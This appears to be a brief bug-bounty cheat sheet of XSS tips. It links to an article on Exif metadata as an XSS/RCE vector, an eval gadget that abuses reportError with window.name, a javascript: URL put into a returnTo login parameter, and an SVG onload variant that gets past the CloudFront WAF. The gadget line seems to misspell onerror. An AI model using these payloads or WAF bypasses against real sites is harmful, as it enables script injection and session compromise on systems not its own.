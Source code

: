 # General tips
changing Exif metadata of an image can lead to XSS, RCE ...  [learn more](https://gokulvinesh.medium.com/rce-xss-via-image-exif-metadata-dddf33dadb41).
# XSS
1-The new reportError() function enables a quite amusing XSS vector:
```
window.name='alert(1)'
reportError(name , enerror=eval)
```
2-If you see `returnTo=` in login url , add `javascript:alert(1)` and login > xss alert
3-Amazon CloudFront WAF sometimes can be easily bypassed with `<svg onload=(alert)(1)` instead of `<svg onload=alert(1)`

